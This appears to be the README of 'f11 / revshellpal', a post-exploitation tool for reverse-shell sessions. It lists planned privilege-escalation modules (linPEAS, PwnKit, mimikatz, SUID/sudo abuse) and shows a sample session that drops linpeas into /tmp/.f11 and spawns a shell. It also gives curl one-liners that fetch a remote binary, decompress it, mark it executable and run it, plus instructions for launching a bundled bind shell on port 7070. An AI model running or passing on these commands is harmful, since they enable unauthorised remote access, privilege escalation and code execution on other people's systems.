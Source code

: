 # f11
*revshellpal*

### TODO - Modules to support

- linpeas (other peas?)
  - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- pwnkit
  - https://github.com/ly4k/PwnKit
- mimikatz (windows)
  - https://github.com/ParrotSec/mimikatz
- SUID/SUDO/CAP/
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid


### Other modules?
- https://github.com/mzet-/linux-exploit-suggester
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/linted/linuxprivchecker
- custom?
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid


Command ideas ...

```
💀 Ӻ11> linpeas
/tmp/.f11/linpeas.sh - 100.00% (0.74 MB) of total size: 0.74 MB
💀 Ӻ11> workdir
Command not found: 'workdir'
💀 Ӻ11> help
Command not found: 'help'
💀 Ӻ11> commands
Command not found: 'commands'
💀 Ӻ11> plugins
Command not found: 'plugins'
💀 Ӻ11> download
Command not found: 'download'
💀 Ӻ11> upload
Command not found: 'upload'
💀 Ӻ11> shell
charlie@galactica:/tmp$ exit

💀 Ӻ11> 
```

### Oneliner

```bash
rm /tmp/f11; curl -sL https://f11snipe.sh/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
rm /tmp/f11; curl -sL https://192.168.1.67:8000/dist/f11-linux.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
